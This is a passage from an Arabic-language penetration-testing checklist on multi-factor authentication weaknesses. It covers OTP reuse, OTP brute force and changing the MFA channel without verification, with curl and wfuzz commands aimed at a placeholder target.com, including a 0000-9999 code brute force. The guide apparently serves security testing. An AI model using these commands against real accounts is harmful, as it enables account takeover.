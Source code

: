 
---

## المحاولة الخامسة: تكرار أو إعادة استخدام رموز MFA
**الوصف**: اختبار إذا كانت رموز MFA تتكرر أو صالحة لاستخدامات متعددة.
- **الخطوات**:
  1. اطلب رمز MFA واستخدمه.
  2. جرب نفس الرمز مرة أخرى.
  3. اطلب رموز متعددة وتحقق من التكرار.
- **الأدوات/الأوامر**:
  - cURL:
    ```bash
    curl -X POST -d "username=test@example.com&password=password&otp_code=1234" https://target.com/mfa/verify
    ```
- **الملخص**:
  - cURL: `curl -X POST -d "username=test@example.com&password=password&otp_code=1234" https://target.com/mfa/verify`

---

## المحاولة السادسة: Brute Force على رموز MFA
**الوصف**: اختبار إذا كانت رموز MFA عرضة للتخمين عبر Brute Force.
- **الخطوات**:
  1. حلل طول الرمز.
  2. جرب أكواد متعددة باستخدام أداة.
  3. تحقق من قيود المحاولات.
- **الأدوات/الأوامر**:
  - wfuzz:
    ```bash
    wfuzz -c -z range,0000-9999 --hc 404 -d "otp_code=FUZZ" https://target.com/mfa/verify
    ```
  - cURL:
    ```bash
    curl -X POST -d "otp_code=0000" https://target.com/mfa/verify
    ```
- **الملخص**:
  - wfuzz: `wfuzz -c -z range,0000-9999 --hc 404 -d "otp_code=FUZZ" https://target.com/mfa/verify`

---

## المحاولة السابعة: ثغرات في قنوات توصيل MFA
**الوصف**: اختبار إذا كانت قنوات توصيل MFA (مثل SMS/إيميل) ضعيفة.
- **الخطوات**:
  1. اطلب رمز MFA عبر القنوات المتاحة.
  2. تحقق من أمان القناة (مثل تشفير SMS/إيميل).
  3. جرب تغيير قناة MFA بدون تحقق.
- **الأدوات/الأوامر**:
  - cURL:
    ```bash
    curl -X POST -d "email=newemail@example.com" https://target.com/settings/change-email
    ```
- **الملخص**:
  - cURL: `curl -X POST -d "email=newemail@example.com" https://target.com/settings/change-email`

---

